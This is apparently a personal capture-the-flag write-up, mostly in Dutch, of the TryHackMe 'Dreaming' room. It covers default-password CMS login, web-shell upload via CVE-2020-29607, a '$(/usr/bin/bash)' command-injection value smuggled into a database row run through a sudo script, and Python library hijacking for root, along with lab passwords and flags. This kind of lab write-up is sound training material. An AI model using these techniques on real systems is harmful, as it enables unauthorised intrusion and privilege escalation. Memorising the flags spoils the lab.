


# Dreaming
## Solve the riddle that dreams have woven.
Difficulty: Easy
URL: https://tryhackme.com/room/dreaming

### Info given

While the king of dreams was imprisoned, his home fell into ruins.

Can you help Sandman restore his kingdom?

### Tasks
- What is the Lucien Flag?
- What is the Death Flag?
- What is the Morpheus Flag?


# Content

>$ sudo nmap -sCV -p- 10.113.179.140
```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-11 21:19 +0100
Nmap scan report for 10.113.179.140
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 03:f6:85:64:fd:13:d7:f7:d4:27:29:44:c7:7f:7c:9e (RSA)
|   256 78:de:5f:72:91:0e:b2:b7:1b:a9:b7:b2:70:25:43:84 (ECDSA)
|_  256 47:81:33:d7:7f:d2:42:e0:b6:c6:7b:53:c4:df:ec:6d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.95 seconds
```


>$gobuster dir -u http://10.113.179.140 -w ../tools/gobuster_wordlist.txt 
http://10.113.179.140/app/
http://10.113.179.140/app/pluck-4.7.13/?file=dreaming
Die website zegt:

dreaming
What power would hell have if those here imprisoned were not able to dream of heaven?
http://10.113.179.140/app/pluck-4.7.13/?file=dreaming
Dat `file=dreaming` is verdacht.

Dit vindt niks:
>$ gobuster fuzz -u http://10.113.179.140/pluck-4.7.13/?file=FUZZ -w ../tools/gobuster_wordlist.txt >gobuster.log

Pluck-4.7.13 is interessant:
https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2020-29607
"A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin privileged user to gain access in the host through the "manage files" functionality, which may result in remote code execution."
Maar daar moeten we al admin voor zijn, dus heeft niet veel zin denk ik.

Admin login:
http://10.113.179.140/app/pluck-4.7.13/login.php

Levert niks op:
>$ gobuster dir -u http://10.113.179.140/pluck-4.7.13 -w ../tools/gobuster_wordlist.txt 

Er bestaat ook nog
http://10.113.179.140/pluck-4.7.13/data/styleadmin.css
http://10.113.179.140/pluck-4.7.13/data/reset.css
http://10.113.179.140/pluck-4.7.13/data/image/button_save.png
http://10.113.179.140/pluck-4.7.13/data/image/error_1png

http://10.113.179.140/app/pluck-4.7.13/data/image/
Er zijn enorm veel images en andere plaatjes hier;
```

[PARENTDIR]	Parent Directory	 	-	 
[   ]	AUTHORS	2020-01-29 08:55	269	 
[IMG]	add.png	2020-01-29 08:55	1.2K	 
[IMG]	add_small.png	2020-01-29 08:55	402	 
[IMG]	back.jpg	2020-01-29 08:55	356	 
[IMG]	back_hover.jpg	2020-01-29 08:55	408	 
[IMG]	button_cancel.png	2020-01-29 08:55	717	 
[IMG]	button_document_save.png	2020-01-29 08:55	952	 
[IMG]	button_save.png	2020-01-29 08:55	1.0K	 
[IMG]	clone.png	2020-01-29 08:55	4.8K	 
[IMG]	credits.png	2020-01-29 08:55	1.7K	 
[IMG]	delete.png	2020-01-29 08:55	1.1K	 
[IMG]	delete_from_trash.png	2020-01-29 08:55	1.7K	 
[IMG]	delete_from_trash_small.png	2020-01-29 08:55	728	 
[IMG]	down.png	2020-01-29 08:55	1.2K	 
[IMG]	download.png	2020-01-29 08:55	1.3K	 
[IMG]	download_small.png	2020-01-29 08:55	461	 
[IMG]	edit.png	2020-01-29 08:55	631	 
[IMG]	error.png	2020-01-29 08:55	925	 
[IMG]	error_1.png	2020-01-29 08:55	1.6K	 
[IMG]	error_2.png	2020-01-29 08:55	1.8K	 
[IMG]	error_3.png	2020-01-29 08:55	2.1K	 
[IMG]	favicon.ico	2020-01-29 08:55	9.4K	 
[IMG]	file.png	2020-01-29 08:55	1.6K	 
[IMG]	help.png	2020-01-29 08:55	1.6K	 
[IMG]	image.png	2020-01-29 08:55	1.3K	 
[IMG]	image_small.png	2020-01-29 08:55	532	 
[IMG]	install.png	2020-01-29 08:55	2.0K	 
[IMG]	install_small.png	2020-01-29 08:55	821	 
[IMG]	language.png	2020-01-29 08:55	2.0K	 
[DIR]	menu/	2020-01-29 08:55	-	 
[IMG]	modules.png	2020-01-29 08:55	1.9K	 
[IMG]	newpage.png	2020-01-29 08:55	1.6K	 
[IMG]	note.png	2020-01-29 08:55	1.5K	 
[IMG]	options.png	2020-01-29 08:55	2.3K	 
[IMG]	page.png	2020-01-29 08:55	1.0K	 
[IMG]	page_small.png	2020-01-29 08:55	561	 
[IMG]	password.png	2020-01-29 08:55	1.7K	 
[IMG]	restore.png	2020-01-29 08:55	1.5K	 
[IMG]	settings.png	2020-01-29 08:55	1.4K	 
[IMG]	settings2.png	2020-01-29 08:55	2.3K	 
[IMG]	themes.png	2020-01-29 08:55	1.3K	 
[IMG]	trash-big.png	2020-01-29 08:55	3.1K	 
[IMG]	trash-full-big.png	2020-01-29 08:55	4.8K	 
[IMG]	trash-full.png	2020-01-29 08:55	1.2K	 
[IMG]	trash.png	2020-01-29 08:55	921	 
[IMG]	trash_small.png	2020-01-29 08:55	507	 
[IMG]	up.png	2020-01-29 08:55	1.2K	 
[IMG]	update-available-urgent.png	2020-01-29 08:55	1.1K	 
[IMG]	update-available.png	2020-01-29 08:55	1.1K	 
[IMG]	update-no.png	2020-01-29 08:55	1.3K	 
[IMG]	view.png	2020-01-29 08:55	2.2K	 
[IMG]	website.png	2020-01-29 08:55	2.3K	 
[IMG]	website_small.png	2020-01-29 08:55	924	 
```

Deze stuurt weer terug naar de dreaming page:
http://10.113.179.140/pluck-4.7.13/data/

http://10.113.179.140/app/pluck-4.7.13/data/themes/
```
[DIR]	default/	2020-01-29 08:55	-	 
[DIR]	oldstyle/	2020-01-29 08:55	-	 
```

Try some obvious passwords in the pluck login?
http://10.113.179.140/app/pluck-4.7.13/login.php
The default password for Pluck CMS is password (with the username usually set to admin).
• Default Username: admin
• Default Password: password

Lol `password` is correct.
http://10.113.179.140/app/pluck-4.7.13/admin.php?action=start
Het heeft een file upload! en we zijn admin! Misschien is die CVE toch belangrijk!
Ik kan bestand uploaden en het komt hier uit:
http://10.113.179.140/app/pluck-4.7.13/images/HAPPYHAPPY.png
Deleten kan via:
http://10.113.179.140/app/pluck-4.7.13/admin.php?action=deleteimage&var1=HAPPYHAPPY.png
Email: sandman@dreaming.thm

```
Good  /images
Good  /files
Good  /data/modules
Good  /data/trash
Good  /data/themes
Good  /data/themes/default
Good  /data/themes/oldstyle
Good  /data/settings
Good  /data/settings/langpref.php
```

De CVE proberen
https://github.com/Hacker5preme/Exploits/tree/main/CVE-2020-29607-Exploit

Hoe dit lijkt te werken:
- Upload pwnieshell: https://github.com/flozz/p0wny-shell
- Gebruik manage files om het te openen
- Somehow geeft dat terminal op de server

Problem: Het maakt er shell.php.txt van als ik file upload!
phar ervan maken gaat dus wel goed!
http://10.113.179.140/app/pluck-4.7.13/files/shell.phar



### Exploring the machine
```
www-data@ip-10-113-179-140:/home# ls
death
lucien
morpheus
ubuntu
```
```
cat death_flag.txt
cat: death_flag.txt: Permission denied
```
```
cat lucien_flag.txt
cat: lucien_flag.txt: Permission denied
```
```
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
```
echo "password" | sudo -S su
[sudo] password for www-data: Sorry, try again.
[sudo] password for www-data:
sudo: no password was provided
sudo: 1 incorrect password attempt
```
Zijn er nog andere .py scripts? .txt fiels waren er niet.
>find . -name *.py 2>/dev/null
```
/etc/python3.8/sitecustomize.py
./opt/getDreams.py
./opt/test.py
./home/death/getDreams.py
./home/morpheus/restore.py
```
**getDreams.py:**
```python
cat getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```
**test.py**
```python
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```

Password found: `HeyLucien#@1999!`
My machine expired aww
```
# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"
```

IP is now: 10.112.187.37

Werkt niet:
- Inloggen met `HeyLucien#@1999!` op http://10.112.187.37/app/pluck-4.7.13/login.php
- `echo "HeyLucien#@1999!" | sudo -S su`
- `ssh lucien@10.112.187.37` met wachtwoord `HeyLucien#@1999!`

>$ cat lucien_flag.txt 
FLAG: `THM{TH3_L1BR4R14N}`

Lucien heeft ook python3, maar de python scripts werken niet helemaal ok.
`./opt/getDreams.py` Deze misschien wel

```
$ cat kingdom 
We saved the kingdom!
```

```
$ python3 getDreams.py 
Error: 1045 (28000): Access denied for user 'death'@'localhost' (using password: YES)
Traceback (most recent call last):
  File "getDreams.py", line 54, in <module>
    getDreams()
  File "getDreams.py", line 50, in getDreams
    cursor.close()
UnboundLocalError: local variable 'cursor' referenced before assignment
```

Q: Kunnen we over SSH inloggen als `death` met password `YES` ?
A: Nee

```
lucien@ip-10-112-187-37:~$ ls -a
.   .bash_history  .bashrc  .local          .profile         .ssh                       .viminfo
..  .bash_logout   .cache   .mysql_history  .python_history  .sudo_as_admin_successful  lucien_flag.txt
```
```
$ cat .mysql_history 
_HiStOrY_V2_
use\040library;
INSERT\040INTO\040dreams\040(dreamer,\040dream)\040VALUES\040('whoami',\040'TEST');
select\040*\040from\040dreams;
DELETE\040FROM\040dreams\040WHERE\040dream\040LIKE\040'%TEST%';
exit
use\040library;
select\040*\040from\040dreamers;
show\040tables;
select\040*\040from\040dreams;
UPDATE\040dreams\040SET\040dream\040=\040REPLACE((dreamer,\040'whoami',\040'changingData');
UPDATE\040dreams\040SET\040dream\040=\040'Changed'\040WHERE\040dream\040=\040'TEST';
FLUSH\040PRIVILEGES;
exit
use\040library;
show\040tables;
select\040*\040from\040dreams;
UPDATE\040dreams\040SET\040dream\040=\040'Changed'\040WHERE\040dream\040=\040'TEST';
select\040*\040from\040dreams;
exit
```
Uit `cat .bash_history`: `mysql -u lucien -plucien42DBPASSWORD`

`su root`
`sudo -u death /usr/bin/python3 /home/death/getDreams.py`
`mysql -u lucien -p`
`mysql -u root -p`

Proberen: `mysql -u lucien -p` met wachtwoord `lucien42DBPASSWORD`

Uit de getDreams.py weten we de database naam
```
mysql> connect library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Connection id:    12
Current database: library
```
Blijkbaar is er ook een `show databases;` `show tables`
`select * from dreams`

Werkt mysql ook als user `death` met password `YES`? Nee
Ik zie niks zinnigs staan. Ik zie wel in eerdere script `query = "SELECT dreamer, dream FROM dreams;"`. Dus deze table wordt gebruikt in dat script.
```
$ ls -l getDreams.py 
-rwxrw-r-- 1 death death 1574 Aug 15  2023 getDreams.py
```
Maar lucien kan het wel uitvoeren, en de dingen van de database gaan `shell = subprocess.check_output(command, text=True, shell=True)` in!
Kunt dit ook direct checken via `sudo -l`.
```
lucien@ip-10-114-187-53:~$ sudo -l
Matching Defaults entries for lucien on ip-10-114-187-53:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-114-187-53:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```


Plan:
- Iets zinnigs in die mysql database zetten wat misschien een shell opent als `death`?
- `"/bin/bash"` ?
- In de dreams table moeten we een regel toevoegen `$(/usr/bin/bash)`

https://www.w3schools.com/mysql/mysql_insert.asp
`INSERT INTO dreams VALUES ('Pietjepuk','$(/usr/bin/bash)');`
Check:
```

mysql> select * from dreams;
+-----------+------------------------------------+
| dreamer   | dream                              |
+-----------+------------------------------------+
| Alice     | Flying in the sky                  |
| Bob       | Exploring ancient ruins            |
| Carol     | Becoming a successful entrepreneur |
| Dave      | Becoming a professional musician   |
| Pietjepuk | $(/usr/bin/bash)                   |
+-----------+------------------------------------+
5 rows in set (0.00 sec)
```
```
$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

death@ip-10-114-187-53:/home/lucien$ 
```
We are now `death`.
We krijgen geen output:
```
death@ip-10-114-187-53:/home/lucien$ ls
death@ip-10-114-187-53:/home/lucien$ cd
death@ip-10-114-187-53:~$ ls
death@ip-10-114-187-53:~$ ls -la
death@ip-10-114-187-53:~$ pwd
death@ip-10-114-187-53:~$ cd
death@ip-10-114-187-53:~$ cd /
death@ip-10-114-187-53:/$ ls
death@ip-10-114-187-53:/$ pwd
death@ip-10-114-187-53:/$ ?
?: command not found
death@ip-10-114-187-53:/$ 
death@ip-10-114-187-53:/$ whoami
death@ip-10-114-187-53:/$ 
```
De output komt bij exit;
```
death@ip-10-114-187-53:/$ exit
Pietjepuk + lucien_flag.txt death_flag.txt getDreams.py total 56 drwxr-xr-x 4 death death 4096 Aug 25 2023 . drwxr-xr-x 6 root root 4096 May 18 2025 .. -rw------- 1 death death 427 Aug 25 2023 .bash_history -rw-r--r-- 1 death death 220 Feb 25 2020 .bash_logout -rw-r--r-- 1 death death 3771 Feb 25 2020 .bashrc drwx------ 3 death death 4096 Jul 28 2023 .cache drwxrwxr-x 4 death death 4096 Jul 28 2023 .local -rw------- 1 death death 465 Aug 25 2023 .mysql_history -rw-r--r-- 1 death death 807 Feb 25 2020 .profile -rw------- 1 death death 8157 Aug 7 2023 .viminfo -rw-rw-r-- 1 death death 165 Jul 29 2023 .wget-hsts -rw-rw---- 1 death death 21 Jul 28 2023 death_flag.txt -rwxrwx--x 1 death death 1539 Aug 25 2023 getDreams.py /home/death bin boot dev etc home kingdom_backup lib lib32 lib64 libx32 lost+found media mnt opt proc root run sbin snap srv swap.img sys tmp usr var / death
```
```
death@ip-10-114-187-53:/home/lucien$ cd
death@ip-10-114-187-53:~$ cat death_flag.txt
death@ip-10-114-187-53:~$ exit
Pietjepuk + THM{1M_TH3R3_4_TH3M}
```
Death flag: `THM{1M_TH3R3_4_TH3M}`
Wat moeten we doen als Death?
`sudo -u death /usr/bin/python3 /home/death/getDreams.py`
De `getDreams.py` van `death` is een andere dan in `opt`.

Dus doen:
```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
cd /home/death
cat getDreams.py
exit
```
Result:
```
Pietjepuk + import mysql.connector import subprocess # MySQL credentials DB_USER = "death" DB_PASS = "!mementoMORI666!" DB_NAME = "library" def getDreams(): try: # Connect to the MySQL database connection = mysql.connector.connect( host="localhost", user=DB_USER, password=DB_PASS, database=DB_NAME ) # Create a cursor object to execute SQL queries cursor = connection.cursor() # Construct the MySQL query to fetch dreamer and dream columns from dreams table query = "SELECT dreamer, dream FROM dreams;" # Execute the query cursor.execute(query) # Fetch all the dreamer and dream information dreams_info = cursor.fetchall() if not dreams_info: print("No dreams found in the database.") else: # Loop through the results and echo the information using subprocess for dream_info in dreams_info: dreamer, dream = dream_info command = f"echo {dreamer} + {dream}" shell = subprocess.check_output(command, text=True, shell=True) print(shell) except mysql.connector.Error as error: # Handle any errors that might occur during the database connection or query execution print(f"Error: {error}") finally: # Close the cursor and connection cursor.close() connection.close() # Call the function to echo the dreamer and dream information getDreams()
```

Q: Is toevallig `!mementoMORI666!` ook de SSH password van death? A: Ja!
```
death@ip-10-114-187-53:~$ cat getDreams.py 
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```
```
death@ip-10-114-187-53:~$ sudo -l
[sudo] password for death: 
Sorry, try again.
[sudo] password for death: 
Sorry, user death may not run sudo on ip-10-114-187-53.
```
Het sudo wachtwoord is wel `!mementoMORI666!`.

```
death@ip-10-114-187-53:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
Wat dit script doet is het import van shutil een functie, en die kopieert wat bestanden. Uit onderstaande error zien we ook waar dat ding staat.

```
death@ip-10-114-187-53:/home/morpheus$ python3 restore.py 
Traceback (most recent call last):
  File "restore.py", line 6, in <module>
    backup(src_file, dst_file)
  File "/usr/lib/python3.8/shutil.py", line 435, in copy2
    copyfile(src, dst, follow_symlinks=follow_symlinks)
  File "/usr/lib/python3.8/shutil.py", line 264, in copyfile
    with open(src, 'rb') as fsrc, open(dst, 'wb') as fdst:
PermissionError: [Errno 13] Permission denied: '/kingdom_backup/kingdom'
```
```
death@ip-10-114-187-53:/home/morpheus$ ls -la /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Mar 18  2025 /usr/lib/python3.8/shutil.py
```
Deze wordt dus gerund als `root`, maar `death` kan het doen!
Nee, ik heb toegevoegd `os.system('whoami')`;
```
death@ip-10-114-187-53:~$ python3 /usr/lib/python3.8/shutil.py
death
```

Gemini zegt:Why This Is Significant

By default, standard Python library files in /usr/lib/ are owned by root:root with -rw-r--r-- permissions so normal users cannot alter them.

Here, the group ownership is death with write access enabled. If any root-privileged script or scheduled task (cron job) runs Python and imports the shutil module, it will execute whatever code is inside /usr/lib/python3.8/shutil.py with root privileges. (In a CTF or security lab context, this is a classic privilege escalation vector via Python library hijacking).

Mijn chmod 777 is toch gebeurt!
```
death@ip-10-114-187-53:/home/morpheus$ ls -la morpheus_flag.txt 
-rwxrwxrwx 1 morpheus morpheus 28 Jul 28  2023 morpheus_flag.txt
```
Dus het backup script heeft gedraaid somehow.
```
$ cat morpheus_flag.txt 
THM{DR34MS_5H4P3_TH3_W0RLD}
```
FLAG: THM{DR34MS_5H4P3_TH3_W0RLD}